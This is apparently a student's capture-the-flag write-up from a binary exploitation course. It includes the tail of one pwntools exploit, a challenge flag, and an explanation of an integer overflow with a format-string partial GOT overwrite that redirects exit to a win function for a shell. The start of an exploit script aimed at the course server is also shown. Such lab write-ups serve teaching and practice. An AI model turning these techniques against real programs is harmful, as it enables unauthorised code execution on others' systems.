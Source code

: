 ```
least_fav = spray*(int(offset/len(payload))) 
payload = fit({
    0: spray,
    offset: address + b'n'*10
})

p.sendline(payload)
p.interactive()
```

abs
====================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNy1hYnMiLCJpcCI6IjQ5LjE4MS4zNC45MCIsInNlc3Npb24iOiI4ZDU0MzNkMS1kNDFiLTQ3ZTQtOWEwNC04ODRjOWY3NmM0NGUifQ.zLUq4clkvHHV6ocxthuGAX7Y9clV52POVr5L4CiJfkQ}
General overview of problems faced
--------------------------------------
We cannot go out of bounds directly.
However, we may be able to overflow the integer since the program adds 1 to our input before checking it is not greater than 3.
int8 has a max value 127 and min value -128.
Eventually, we run into a place where we can overwrite eax. This seems to control what gets printed.
Overwrite the eax with the address to our buf filled with some %x's to print stuff from the stack.
 Alternatively, our buf is technically located at all_the_abs[4], so placing the address of our buf at 123*24 chars in would do the same thing.
 We can use this offset + 4*x where x can be 1-4, to place addresses of our choosing.
 However, since the GOT and our win share the same binary, we can do a partial overwrite with $hn to overwrite the last four bytes.
 Replace the last four bytes of the exit function pointer of the GOT with our win function's last four bytes to pop the shell.

Script/Command used
--------------------------------------
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './abs' #Change this

PROGNAME = exe
REMOTE = "comp6447.wtf" #Change this
REMOTEPORT = 29694 #Change this
global p
global e
global global_timeout

e = ELF(PROGNAME)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
```